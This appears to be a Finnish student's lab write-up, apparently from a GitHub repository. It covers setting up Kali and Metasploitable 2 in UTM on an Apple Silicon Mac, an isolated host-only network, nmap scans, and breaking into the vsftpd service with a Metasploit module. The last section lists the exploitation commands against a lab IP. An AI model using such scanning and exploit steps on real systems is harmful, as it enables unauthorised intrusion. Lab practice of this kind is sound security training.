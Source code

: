 Harjoitus 1 OmaLabra


a) Asenna Kali virtuaalikoneeseen:
    - Käytössäni on MacBook Pro M1 Pro sirulla, joten käytän harjoituksissa VirtualBoxin sijaan UTM:n.
    - Latasin asennustiedoston kali.org sivuilta ja valitsin versioksi Apple Silicon (ARM64) (www.kali.org/get-kali/#kali-installer-images)
    ﻿<img width="519" alt="image" src="https://user-images.githubusercontent.com/22190595/229301403-3ac2f9cf-b2c9-47c6-8580-8dbc1db8ccc2.png">

    - Avasin UTM:n ja valitsin "Create a New Virtual Machine"
    - Valitaan "Virtualize"
    - Käyttöjärjestelmäksi valitaan "other"
    - Valitaan Bootti levynkuvaksi aikaisemmin ladattu Kalin ISO-tiedosto
    
    <img width="228" alt="image" src="https://user-images.githubusercontent.com/22190595/229301729-ee4c11e6-d0a3-48a3-829f-706bd43603d5.png">

    - Valitsin muistin määräksi 2048 MB.
    
    ﻿<img width="233" alt="image" src="https://user-images.githubusercontent.com/22190595/229301859-821c2fc8-7551-4b60-84e0-528e794dab2d.png">

    - Kiintolevyn kooksi laitoin 20 GB
    
    <img width="232" alt="image" src="https://user-images.githubusercontent.com/22190595/229301923-8e5b24fd-9624-4813-979e-7a461f6f2652.png">

    - Jaetulle kansiolle ei ole tarvetta joten jätän sen luomatta.
    - Nimeän virtuaalikoneen ja tallennan asetukset.
    
    ﻿<img width="229" alt="image" src="https://user-images.githubusercontent.com/22190595/229302044-e25cec17-b465-484c-97c5-eb7c7a9b5c21.png">

    - UTM:n bugin vuoksi joudun asentamaan "Kalin console only" moodissa.
    - Asetuksista lisätään "Devices" kohdan alle "Serial" (tämän voi poistaa kun Kali on asennettu!)
    
    <img width="403" alt="image" src="https://user-images.githubusercontent.com/22190595/229302195-14c8e99a-7d09-4b5d-8b20-80ff6aca78be.png">

    - Sitten käynnistetään virtuaalikone ja valitaan "Install" (Käytän asennuksessa oletusasetuksia!).
    - Kun asennus on valmis, virtuaalikone pitää sammuttaa ja poistaa asetuksista "Devices" alta USB-drive (tätä käytettiin vain asennukseen).
    
    ﻿<img width="465" alt="image" src="https://user-images.githubusercontent.com/22190595/229302444-8221de7c-58a6-4929-bcd8-4e92b242f533.png">

    
    - Lisätään vielä toinen verkkokortti "Devices" ja "New" Network. Ensimmäisessä verkkokortissa asetuksena "Shared" ja toisessa "Host-only"
    
  b) Asennetaan Metasploitable 2 virtuaalikoneeseen
  
    - Asennetaan Qemu:
      brew install qemu (käytän asennukseen Homebrewta (https://brew.sh/)
    - Ladataan Metasploitable 2 image (https://sourceforge.net/projects/metasploitable/)
    - Puretaan ladattu zip-paketti
      unzip metasploitable-linux-2.0.0.zip
    - Muutetaan Metasploitablen vmdk image UTM:n tukemaan qcow2 muotoon
      qemu-img convert -O qcow2 -c Metasploitable.vmdk MetasploitableUTM.qcow2
    
    - Avataan UTM ja lisätään uusi virtuaalikone
      - painetaan "+" ja valitaan Emulate
      ﻿<img width="452" alt="image" src="https://user-images.githubusercontent.com/22190595/229303317-a8ded6d8-fffb-4562-b7f2-e99e58d708b5.png">
      
      - Valitaan käyttöjärjestelmäksi "Other"
      ﻿<img width="346" alt="image" src="https://user-images.githubusercontent.com/22190595/229303488-1e05214b-aee1-459d-82c2-fe99c75009b5.png">
      
      - Valitaan "Skip ISO boot"
      ﻿<img width="454" alt="image" src="https://user-images.githubusercontent.com/22190595/229303523-10576c7c-040e-47f4-8c3c-e1dbcc91fec9.png">

      - Muistin kooksi valitsin 1024 MB
      <img width="367" alt="image" src="https://user-images.githubusercontent.com/22190595/229303556-a8c1c8e1-bbe1-42e0-bb17-32e3ce8cb19b.png">

      - Levyn kooksi valitsin 4 GB
      ﻿<img width="228" alt="image" src="https://user-images.githubusercontent.com/22190595/229303668-d55cd3ce-4c06-4696-b294-7d82a87cd8c6.png">

      - Jaettua kansiota ei tarvita
      - Annetaan vielä virtuaalikoneelle nimi, valitaan "Open VM Settings" ja tallennetaan.
      ﻿<img width="224" alt="image" src="https://user-images.githubusercontent.com/22190595/229303744-bdcabdc8-008f-49b1-9177-74ee6ad1976b.png">

      - Asetuksista mennään kohtaan QEMU ja otetaan "täppä" pois kohdasta "UEFI Boot"
      ﻿<img width="401" alt="image" src="https://user-images.githubusercontent.com/22190595/229303791-d001c657-e6b5-4e87-a5b5-4366ee80e827.png">

      - Seuraavaksi mennään verkkoasetuksiin ja valitaan "Network Mode" kohtaan "Host Only" (näin koneen verkkoliikenne jää isäntäkoneen sisälle)
      <img width="422" alt="image" src="https://user-images.githubusercontent.com/22190595/229303933-81b98f4b-3c3b-4f85-8859-18113827eecf.png">

      - Seuraavaksi mennään "Drives" kohtaan ja poistetaan "IDE Drive" painamalla "Delete Drive"
      <img width="402" alt="image" src="https://user-images.githubusercontent.com/22190595/229303986-33998c58-7969-4587-b4f9-599dbf8fc644.png">

      - Sitten lisätään uusi levy "New" valitaan tyypiksi IDE ja valitaan aikaisemmin luotu MatasploitableUTM.qcow2 levynkuva
      ﻿<img width="431" alt="image" src="https://user-images.githubusercontent.com/22190595/229304025-a5d1f9d3-6756-4019-8c97-3a1da73f2d2b.png">

      - Lopuksi tallennetaan asetukset ja sitten voidaan kokeilla UTM:n konsolista käynnistyykö virtuaalikone
      <img width="455" alt="image" src="https://user-images.githubusercontent.com/22190595/229304059-754473fd-dee0-44dc-9c7c-cdebd843c681.png">

      ﻿<img width="527" alt="image" src="https://user-images.githubusercontent.com/22190595/229304070-72bcdae5-6c97-4615-9868-14f16870fea8.png">
  
  c) Tee koneille virtuaaliverkko, jossa 
        - Kali saa yhteyden internettiin, mutta sen voi laittaa pois päältä 
        - Kalin ja Metasploitablen välillä on host-only network, niin että porttiskannatessa ym. koneet on eristetty internetistä, mutta 
          saavat yhteyden toisiinsa
          
          - Kali koneella on kaksi verkkokorttia, "Shared" jolla pääsee internettiin ja "Host-only" joka on virtuaalikoneiden sisäinen verkko
          - Metasploitable koneella on ainoastaan "Host-only" verkko
          
  d) Etsi Metasploitable porttiskannaamalla (db_nmap -sn). Tarkista selaimella, että löysit oikean IP:n - 
    Metasploitablen etusivulla lukee Metasploitable.
    
    - Testasin pingaamalla että kumpikaan kone ei pääse internettiin ja saa yhteyden toisiinsa
    - Avasin Kalissa Firefoxin ja menin Metasploitablen IP osoitteeseen
    
    ![image](https://user-images.githubusercontent.com/22190595/229305357-f85ccaae-56be-4d28-ac54-a7c3e89c02f7.png)

    
    - Avasin Kalissa Root Terminal Emulator ohjelman
    - Alustin Metasploit tietokannan
      msfdb init
    - Käynnistin Metasploitin
      msfdb run
    - Loin harjoitusta varten workspacen
      workspace -a metasploitable-h1
    - Porttiskannasin kohdekoneen
      db_nmap -sV 192.168.128.2
      services
          
  e) Porttiskannaa Metasploitable huolellisesti (db_nmap -A)
    - Porttikannasin kohteen vielä huolellisemmin (db_nmap -a)
      db_nmap -A 192.168.128.2
  
  f) Murtaudu Metasploitablen VsFtpd-palveluun Metasploitilla (search vsftpd, use 0, set RHOSTS - varmista osoite huolella, exploit, id)
    - Murtauduin kohteen VsFtpd palveluun
      search vsftpd
      use 0
      setg RHOSTS 192.168.128.2
      use 0
      run
      ls
      ﻿<img width="474" alt="image" src="https://user-images.githubusercontent.com/22190595/229305965-0c6095fe-7c4d-4390-8ce2-07b8ef3b54d0.png">


        


    
    
